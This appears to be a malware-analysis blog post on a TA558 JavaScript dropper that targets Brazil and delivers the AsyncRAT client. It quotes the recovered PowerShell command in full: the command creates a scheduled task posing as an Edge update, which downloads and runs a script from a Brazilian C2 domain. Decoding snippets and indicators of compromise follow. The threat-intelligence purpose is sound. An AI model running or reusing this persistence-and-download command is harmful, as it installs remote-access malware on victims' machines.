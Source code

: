 ```yaml
---
title: TA558 Targeting Brazil 
date: 2024-08-15 18:55:00 +0800
categories: [Malware,APT,TA558,Javascript,Dropper,AsyncRAT]
tags: [APT,TA558]
pin: true
---
```


### Introduction
While browsing Bazaar, I stumbled upon a JavaScript sample that piqued my interest, as I've never analyzed one before. Like any curious mind, I downloaded the sample, and it turned out to be one of the most intriguing pieces of code I've examined in a while. This sample is related to TA558, a financially-motivated cybercrime actor primarily targeting the hospitality and travel sectors, especially in Latin America. This current sample has a hijacked C2 domain based in Brazil.

![Brazil](https://i.kym-cdn.com/entries/icons/mobile/000/043/545/cover1.jpg "Brazil")

### JavaScript Analysis
![JS](https://cdn-images-1.medium.com/v2/resize:fit:800/1*kvbrteImG7-Voyyaz6zF2Q.png "JS")

Upon opening the JS file, it initially appears obfuscated, but it's merely a variable named "Microsoft" repeated 1,059 times. After removing the redundant variable and cleaning up the empty lines using regex in VS Code, the script becomes much easier to work with.

![JS](https://cdn-images-1.medium.com/v2/resize:fit:800/1*aKNGcrkuUnU2DwnqxBae5w.png "JS")

Concatenating the strings reveals the following key operations:

- **CDT9...b10b5:** `m.New.WebClient).DownloadString('https://detail-booking.com.br/top.pdf')`
- **codigo2:** `schtasks /create /tn 'MicrosoftEdgeUpdateTaskMachineCoreIE' /tr cmd /c start /min powershell.exe -nologo -command 'iex ((New-Object System.Net.WebClient).DownloadString('https://detail-booking.com.br/top.pdf'))' /SC HOURLY /mo 3 /f`

The main payload executed by the script is:

```powershell
powershell.exe -noexit -ExecutionPolicy Bypass schtasks /create /tn 'MicrosoftEdgeUpdateTaskMachineCoreIE' /tr cmd /c start /min powershell.exe -nologo -command 'iex ((New-Object System.Net.WebClient).DownloadString('https://detail-booking.com.br/top.pdf'))' /SC HOURLY /mo 3 /f
```

The script accomplishes two primary goals:

1. **Fake Popup Creation:** Displays a misleading message, "The file cannot be executed," giving the false impression that the file's execution was blocked for security reasons.
2. **Scheduled Task Creation:** Sets up a task named 'MicrosoftEdgeUpdateTaskMachineCoreIE' that runs every three hours. This task executes a PowerShell command that:
   - Bypasses the execution policy.
   - Downloads a file (`top.pdf`) from `https://detail-booking.com.br`.
   - Executes the downloaded file using PowerShell.

### PDF Analysis
As suspected, the PDF file is not actually a PDF but a PowerShell script. It begins by setting the execution policy to bypass mode, allowing the script to run without restrictions. The script decodes obfuscated binary data into a .NET assembly, which is loaded into memory and executed using system executables like RegSvcs.exe and Msbuild.exe. The script is designed to delete itself after execution.

![PS](https://cdn-images-1.medium.com/v2/resize:fit:800/1*c2C-keeHpI-0JaweopL1Iw.png "PS")

Interestingly, the decryption function is named **kimkarden**, which might be a playful nod to the Kardashians.

The **kimkarden** function decodes an obfuscated binary string into a byte array, which is then used to execute further code. It pads the binary string to ensure it's a multiple of 8 bits, splits it into 8-bit chunks, converts these chunks into bytes, and returns the decoded data. This process transforms encoded data into executable code.

```powershell
$pinch = $binaryData1.split('O')[1].split('l')[0]
$rPinchr = -join $pinch[-1..-($pinch.Length)]
$pinchs = $rPinchr.replace('*', '000000000000000000').replace('-', '111').replace('!', '1000000').replace('^', '100000')
```

- The first line extracts a specific substring from the variable `binaryData1`.
- The second line reverses the extracted substring.
- The third line converts the reversed string into a binary format, preparing it for further decoding.

The next lines decode two different sets of obfuscated binary data, resulting in two byte arrays: **$data1** and **$data2**.

![MS](https://cdn-images-1.medium.com/v2/resize:fit:800/1*QR7rlhptaGlDFaR-XlSI9w.png "MS")

- The assembly from **$data1** is loaded into the variable **${I}**.
- The variable **${E}** encapsulates operations designed to execute a payload using .NET tools, manipulating executable paths and data dynamically.

To extract and analyze these binaries, you can remove the **${E}** method and write them to a location for further investigation.

### Dropped File
After dumping the files, it becomes clear that **$data1** is a helper DLL, and **CDTMUTHALHAI** is the infamous AsyncRAT client. Opening the DLL in dnSpy reveals that it is obfuscated, likely requiring tools like de4dot for deobfuscation.

| DLL | AsyncRAT Client |
|---|---|
| ![DLL](https://cdn-images-1.medium.com/v2/resize:fit:800/1*P6wloBIElNe-j-1_7xAPYQ.png "DLL") | ![ARC](https://cdn-images-1.medium.com/v2/resize:fit:800/1*Gr2HJkrm4cmKMAQbeJzktA.png "ARC") |

![NET](https://cdn-images-1.medium.com/v2/resize:fit:800/1*Wfh6vTNDCdPAFiIaL0v-Ww.png "NET")

- The method named **C** in the DLL is called to run **${V4}, ${V2}, and ${V3}**, which are placeholders for Regsvcs.exe and Msbuild.exe. The method **C** runs a loop for five iterations, calling the function **smethod_2** to dynamically load and execute code from binary data using these executables.

![C](https://cdn-images-1.medium.com/v2/resize:fit:800/1*baYRlUXUe9vXx879PttepQ.png "C")
![smethod](https://cdn-images-1.medium.com/v2/resize:fit:800/1*vbbL_cRIs0cK27uOG55Slw.png "smethod")

- **smethod_2** is a crucial function that ensures the executable operates with the provided binary data, eventually running the AsyncRAT client.

The AsyncRAT client code shows typical behavior with some modifications, including the presence of Chinese characters, likely intended to mislead analysts. However, the targeting of Latin America and the origin of the threat actors seem clear.

# Relations
![Rel](https://cdn-images-1.medium.com/v2/resize:fit:800/1*-pgb6W87JKlaOtDJEmFCYw.png "Rel")

- If you closely look at all these domains you would find these domains have previously been used to host or as C2 for different malware targetting Brazil similarly.
![Rel](https://cdn-images-1.medium.com/v2/resize:fit:800/1*FDNpP2D__kp_IcPxmfUJKw.png "Rel")
- Moreover if you look at these samples you can find that these samples are attributed somehow to a threat actor using Phising as initial way to get in similarly how we see right now and the TTPs also match
![Ref](https://cdn-images-1.medium.com/v2/resize:fit:800/1*bLiyvmP6NdPFHbOD0P2Pdg.png "Ref")

### IOC
```
MD5
878a39b1a17ad10ed89c87508db353c0
SHA-1
ed51f59febba6bd664cd888663706c792095b15d
SHA-256
a7d66996766f77003618bcd786611e68d19e41a4777a7854b5936fcc02e9f349 
RoomingList Equipo Miguel y Chino Joseph Santiago js.js



 DOMAIN
	detail-booking[.]com[.]br
	detail-booking[.]com[.]br/top.pdf

IP
	187.17.111.35
```
[Virustotal](https://www.virustotal.com/gui/file/a7d66996766f77003618bcd786611e68d19e41a4777a7854b5936fcc02e9f349)

[AnyRun](https://app.any.run/tasks/c7240dfe-b9b1-4ebd-957f-ab6847a985bd)

[Bazaar](https://bazaar.abuse.ch/sample/a7d66996766f77003618bcd786611e68d19e41a4777a7854b5936fcc02e9f349/)

Thank You for reading this till the end ❤

Discord somedieyoungzz

Twitter https://twitter.com/IdaNotPro


